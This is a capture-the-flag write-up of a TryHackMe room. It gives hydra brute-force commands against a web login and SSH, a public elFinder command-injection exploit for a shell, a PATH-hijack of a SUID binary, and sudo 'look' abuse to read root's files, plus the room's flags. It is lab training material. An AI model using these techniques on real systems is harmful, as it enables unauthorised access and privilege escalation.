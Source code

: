 
[[TryHackMe]] Room

**Date**: 17/01/25
**Target IP**: 10.10.88.15

---
## **Initial Scanning**

**[[Nmap]] Results:**

- 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

---
## **Exploration and Enumeration**

Login Page discovered at **Port 80**. Wrong password alert allows user enumeration leading to discovery that ==admin== user exists.

**DirSearch Results**:

```bash
Target: http://lookup.thm/

[11:47:15] Starting: 
[11:47:23] 403 -  275B  - /.ht_wsr.txt
[11:47:23] 403 -  275B  - /.htaccess.bak1
[11:47:23] 403 -  275B  - /.htaccess.sample
[11:47:23] 403 -  275B  - /.htaccess.orig
[11:47:23] 403 -  275B  - /.htaccess.save
[11:47:23] 403 -  275B  - /.htaccess_sc
[11:47:23] 403 -  275B  - /.htaccess_extra
[11:47:23] 403 -  275B  - /.htaccess_orig
[11:47:23] 403 -  275B  - /.htaccessBAK
[11:47:23] 403 -  275B  - /.htaccessOLD
[11:47:23] 403 -  275B  - /.htm
[11:47:23] 403 -  275B  - /.htaccessOLD2
[11:47:23] 403 -  275B  - /.html
[11:47:23] 403 -  275B  - /.htpasswd_test
[11:47:23] 403 -  275B  - /.httr-oauth
[11:47:23] 403 -  275B  - /.htpasswds
[11:47:24] 403 -  275B  - /.php
[11:47:47] 200 -    1B  - /login.php
[11:47:58] 403 -  275B  - /server-status/
[11:47:58] 403 -  275B  - /server-status
```

Ran [[hydra]] to brute-force the login page using the username admin : 

```bash
❯ hydra -l admin -P /usr/share/wordlists/seclists/Passwords/probable-v2-top12000.txt lookup.thm -s 5000 http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password." -I -vV -c 3
```

Brute-forcing appears successful : 

```
[80][http-post-form] host: lookup.thm   login: admin   password: password123
```

However, this is not the correct password for the admin user. Rather when using this combination despite using an existing username, we obtain the message : `Wrong username or password. Please try again. Redirecting in 3 seconds.` 

This may be indicative that the password exists in the database but is for another user. We thus iterate through a username list with the password obtained: 

```bash
❯ hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p password123 lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Please try again." -I -vV -t 30
```

We obtain the following:

```
[80][http-post-form] host: lookup.thm   login: jose   password: password123
```

---
## **Exploitation**

On logging in successfully, we obtain an elFinder file management page. The files seem to be full of random text.

`credentials.txt` possesses the credentials `think : nopassword`.

Inspecting the version of elFinder we discover it is **2.1.47**. There exists a known exploit which can be used to gain a shell through command injection. https://www.exploit-db.com/exploits/46481

We use this and gain a shell as **www-data** :

```bash
❯ python2.7 exploit.py http://files.lookup.thm/elFinder
```

We can [[Shell Upgrade]] if necessary.



---
## **Post-Exploitation**

Running linpeas gives the following :

```bash
-rwsr-sr-x 1 root root 17K Jan 11  2024 /usr/sbin/pwm (Unknown SUID binary!)
```

Running this binary outputs the following :

```bash
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

Running strings on this file allows us to deduce that this is some sort of password manager script that runs the `id` command to check who the current use is.  This can be vulnerable as it does not seem to be running `/bin/id`, meaning we can create our own `id` script and fool it into running it.

This is done as follows : 

```bash
www-data@lookup:/tmp$ export PATH="/tmp:$PATH"

www-data@lookup:/tmp$ echo '#!/bin/bash' > /tmp/id

www-data@lookup:/tmp$ echo "echo 'uid=1000(think) gid=1000(think) groups=1000(think)'" >> /tmp/id

www-data@lookup:/tmp$ chmod +x id

www-data@lookup:/tmp$ /usr/sbin/pwm
```

We obtain a list of passwords used by the think user.

We can use these to brute-force SSH into said user with [[hydra]] :

```bash
❯ hydra -l think -P ./jose_passwords lookup.thm ssh -t 4

[22][ssh] host: lookup.thm   login: think   password: josemario.AKA(think)

```

We thus obtain the **user flag** ( /home/think/user.txt ) :
**38375fb4dd8baa2b2039ac03d92b820e**

---
## **Escalation**

```
think@lookup:~$ sudo -l

User think may run the following commands on lookup:
(ALL) /usr/bin/look
```

think can run `/usr/bin/look` as sudo. We can thus refer to [GTFOBins](https://gtfobins.github.io/) and gain privileged access to the `/root/root.txt` file to read it as follows : 

```bash
think@lookup:~$ sudo look -bdf "" /root/root.txt
```

We thus obtain the Root Flag :
**5a285a9f257e45c68bb6c9f9f57d18e8**

---
## **Summary**

- Login Page credentials : **jose:password123**
- elFinder 2.1.47 command injection exploit (https://www.exploit-db.com/exploits/46481)
- Create malicious `id` binary and exploit `/usr/sbin/pwm`
- think user SSH password : **josemario.AKA(think)**
- User Flag ( /home/think/user.txt ) : **38375fb4dd8baa2b2039ac03d92b820e**
- Exploit /usr/bin/look sudo access (  [GTFOBins](https://gtfobins.github.io/))
- Root Flag ( /root/root.txt ) : **5a285a9f257e45c68bb6c9f9f57d18e8**